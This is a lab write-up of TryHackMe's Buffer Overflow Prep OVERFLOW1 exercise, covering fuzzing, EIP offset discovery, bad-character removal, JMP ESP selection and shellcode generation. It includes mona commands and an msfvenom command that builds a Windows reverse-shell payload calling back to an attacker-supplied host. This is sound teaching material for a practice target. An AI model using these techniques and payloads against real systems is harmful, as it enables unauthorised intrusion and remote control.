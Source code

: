 ```yaml
---
title: BUFFER OVERFLOW PREP  
published: true
---
```

<br/>
# [](#header-1)BUFFER OVERFLOWS - Explained by an average IT guy
<br/>
<br/>
<br/>
![](images/Buffer-Overflow-Prep/BOP_Completion.png)
<br/>
When I first read a write-up of someone explaining how a buffer overflow worked, my brain melted and poured out of my ears. After doing some research, I am able to keep all of my brain matter intact and inside my cranium. In this write-up, I will walk through the first part of Tib3rius' 'Buffer overflow prep' room on Tryhackme (excellent room, thanks for making it!).
<br/>
<br/>
## oscp.exe OVERFLOW1
<br/>
<br/>
Right off the rip, the best resource that I found to explain in detail what the heck is going on when buffers are overflowed is the following blog post by 0xRick:
<br/>
<br/>
[Binary Exploitation - Buffer Overflow Explained in Detail](https://0xrick.github.io/binary-exploitation/bof1/)
<br/>
This explains in much better detail how a stack is structured and why buffer overflow's are a thing better than I ever could.
<br/>
Step one is to open immunity debugger:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/1.png)
<br/>
<br/>
One additional plugin that will be used is mona. Mona.py is a (healthy 19,000+ line) python script that, when integrated with immunity, allows the user to use a variety of commands to search through the application that is being debugged. It is important to note that mona.py will ONLY work with python 2.7. To add the mona plugin to immunity debugger, download the following from Github:
```
https://raw.githubusercontent.com/corelan/mona/master/mona.py
```
<br/>
<br/>
and place that script in the 'PyCommands' folder in the immunity debugger application. Then set a working directory by entering the following command at the input field at the bottom of immunity:
```
!mona config -set workingfolder c:\mona\%p
```
<br/>
Now probably the most important part comes next, make sure you didn't already break something by testing that the vulnerable program is running properly:
<br/>
![](images/Buffer-Overflow-Prep/2.png)
<br/>
Great, the first step for exploiting a binary is fuzzing. Fuzzing is the process of sending malformed data in an automated fashion to a (hopefully) vulnerable application in an effort to see at what point it fails. Fuzzing is used to gather information regarding a target application. Sometimes, fuzzing can lead to accidental exploitation which is extra effecient. The fuzzing script that was written by Tib3rius is the following:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/3.png)
<br/>
<br/>
So we have a fuzzing script, but what is it doing? Fuzzer.py attempts to manifest a connection with the machine running the binary and then for the first iteration of the while loop sends the prefix "OVERFLOW1" to specify which program we are trying to run. Then it attempts to pass 100 "A" characters to the binary and will continue to do so until it crashes. Knowing how many bytes the binary can handle before it crashes is what we are trying to learn. Running fuzzer.py shows us the following:
<br/>
![](images/Buffer-Overflow-Prep/4.png)
<br/>
So now we know that it takes 2000 bytes to crash the OVERFLOW1 binary, the next step is beginning to craft the exploit. The next script we have to create (when I say create what I really mean is copy and paste from Tib3rius' exploit.py script) is what will exploit the fact that this binary crashes after 2000 bytes.
<br/>
![](images/Buffer-Overflow-Prep/5.png)
<br/>
Awesome, we have some more python to take a look at. We see some familiar functionality from fuzzer.py, we connect to the machine and make sure we are running the OVERFLOW1 binary. We see that we send the "buffer" variable to the binary which is a combination of the prefix, offset, overflow, retn, padding, payload, and postfix variables. I'll do my best to explain what each of these are as we go in and edit them and develop the exploit script. The next step is to generate a value for the payload variable using the following metasploit framework ruby script:
<br/>
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l NUMBER
```
<br/>
Replacing 'NUMBER' with the amount of bytes (NOTE: it is recommended to add more bytes in incrememnts of 100 to this number just in case) it took to crash the binary will generate a long string of characters, copy and paste the returned value into the payload variable of the exploit.py script:
<br/>
![](images/Buffer-Overflow-Prep/6.png)
<br/>
So instead of sending 2000 "A" characters we are now sending a pattern of unique characters.  We do this so we can search where exactly crashes occur since we now have a pattern to search through instead of the same character over and over. Now we restart the program and run the exploit.py script with the updated payload. Now that we crashed the program, we use mona to search for more information:
<br/>
```
!mona findmsp -distance NUMBER
```
<br/>
Since I generated a pattern that was 2400 bytes long, my mona search will be 2400 for the distance option:
<br/>
![](images/Buffer-Overflow-Prep/7.png)
<br/>
The big takeaway from the above image that we are interested in is what mona was able to find when taking look at the registers. The two registers that are very important are the EIP register and ESP register. EIP is short for "Extended Instruction Pointer" it tells where in memory the computer should look for the next command. Our goal is to exploit this functionality and have EIP point some kind of instruction that was the result of us overflowing the buffer and writing our own special instructions into memory. ESP stands for "Extended Stack Pointer" and it points to the location of the stack at any time. Disclamer: I am not an expert at assembely/x86-architecture/linear data structures and do not have in depth knowledge of these topics, thus the explination of these registers are very high-level.
<br/>
<br/>
Thanks to mona, we know at what offset of the EIP register, we now go into our exploit.py and do 2 things. First, make the payload value a blank string. Then change the offset to whatever value mona was able to find (in this case it would be 1978). Great so in its current state our exploit.py should send 1978 "A" characters to the program.
<br/>
<br/>
![](images/Buffer-Overflow-Prep/8.png)
<br/>
 Now we are ready for the next step, finding bad characters.
<br>
The first step in finding which characters are bad and should be excluded from the payload is generating a byte array using mona. Bad characters are bad becuase they negatively affect the buffer in some way. A prime example of a bad character is "\x00" which is the hexidecimal encoded "null byte" character. When the binary is reading the string (in C/C++) that includes a null byte character, it will result in termination of the buffer at that point. This would result in only a portion of our payload actually being written in memory. We want to identify which characters cause behavior like this and remove them from our payload. The following mona command can be used to generate a byte array that will help us investigate for bad characters:
<br/>
```
!mona bytearray -b "\x00"
```
<br/>
This will create two files in your previously defined working directory called bytearray.bin and bytearray.txt. Next we run the following python to generate a string of characters that excludes the null byte by default:
<br/>
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
<br/>
We now change the value of our payload variable once again to the newly generated string of hex encoded character values. One additional change we have to make is editing the value of the retn variable. "retn" in this script stands for return address. We know that by sending 1978 "A" chars to the binary will get us to the offset of the EIP register but we still haven't overwritten the EIP register. The return address will be the value that we will use to overwrite EIP. We will change it to be a "BBBB"
<br/>
![](images/Buffer-Overflow-Prep/9.png)
<br/>
Awesome! Our exploit development is going well. Now we want to run the exploit against the binary again. After doing so we can see some interesting changes in immunity:
<br/>
![](images/Buffer-Overflow-Prep/10.png)
<br/>
There are two things to take note of. First at the bottom, we can see that it says we have an access violation when executing 42424242. This proves that the EIP register has been overwritten with four "B" characters as 42 is the unicode hex char code for B. The second is the address of the ESP register, in this case it is 017DFA30. We want to examine the ESP register as this is what comes directly after the EIP register and thus where all of our payload char values will be written to. To examine the ESP register, you can right click the address and select "follow in dump". You should see hexidecimal representation of the bytes that were used in the payload variable however some characters are missing. The first one that we can't seem to find is 07 and the next is 08. It's possible that these are bad chars, we can investigate further using the following mona command:
<br/>
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 017DFA30
```
<br/>
<br/>
![](images/Buffer-Overflow-Prep/11.png)
<br/>
So we have 00 07 08 2e 2f a0 a1. We know that the null byte is for sure a bad character but what about the rest? Notice how a few of these chars seem to include the char that follows it? 07 is before 08, 2e is before 2f, and a0 is before a1. It is likely that 07, 2e, and a0 all are responsible for overwritting the character that would come next in the sequence. This is why 08, 2f, and a1 show up as bad chars in mona but might not be bad characters. From here we can start removing the listed characters from our exploit string, create a new byte array with the bad chars we find, and keep running the exploit and checking the ESP register's (Note that the address of the ESP register may change when running the exploit) status to see where it crashes. For the current example we can assume (correctly) that bad chars will be "\x00\x07\x2e\xa0". We would do this until we see the following using mona:
<br/>
![](images/Buffer-Overflow-Prep/12.png)
<br/>
<br/>
Awesome, we are free from any bad characters that could ruin our payload. Now it's time to find a jump point. Using the following mona command and our newly found list of bad chars:
<br/>
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<br/>
What this will do is find instructs in the binary that will perform "jmp esp" or something equivalent in addresses that do not contained the bad chars you state after -cpb. Select Window > Log Data to view what mona finds. Here are the results:
<br/>
![](images/Buffer-Overflow-Prep/13.png)
<br/>
Nice, now we can edit the exploit.py script and edit the "retn" variable to use an address that mona returned. I used the first one (625011af) for this example. Since the system is little endian, we need to make sure this value is interpreted correctly. This is why we must write the address in reverse order, the value of retn should be "\xaf\x11\x50\x62". If we wanted to test that the address is working we can make the payload a blank string, set a breakpoint at that address and see what happens after running the exploit. 
<br/>
![](images/Buffer-Overflow-Prep/14.png)
<br/>
<br/>
Now we are getting to the end of the process it is time to generate a payload. Using the following msfvenom commmand and your updated IP address will create a reverse shell payload.
<br/>
<br/>
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
<br/>
You could generate python code by replacing the c at the end of the command with py but the c code that is created is cleaner and is still valid. Great we have our payload, now one final modification we must make before we get a reverse shell is prepending nops to the payload. We need to do this if an encoder was used to create the payload. With the command above, the shikata_ga_nai encoder was used so we will need to prepend nops to the payload. This can be done by editing the value of the "padding" variable to be equal to "\x90" * 16. 
<br/>
![](images/Buffer-Overflow-Prep/16.png)
<br/>
Moment of truth, listen on the port specified in the payload and run the exploit!
<br/>
![](images/Buffer-Overflow-Prep/17.png)
<br/>
It worked! From fuzzing to a reverse shell, this would be the process for exploiting a simple stack buffer overflow. Thanks for reading!
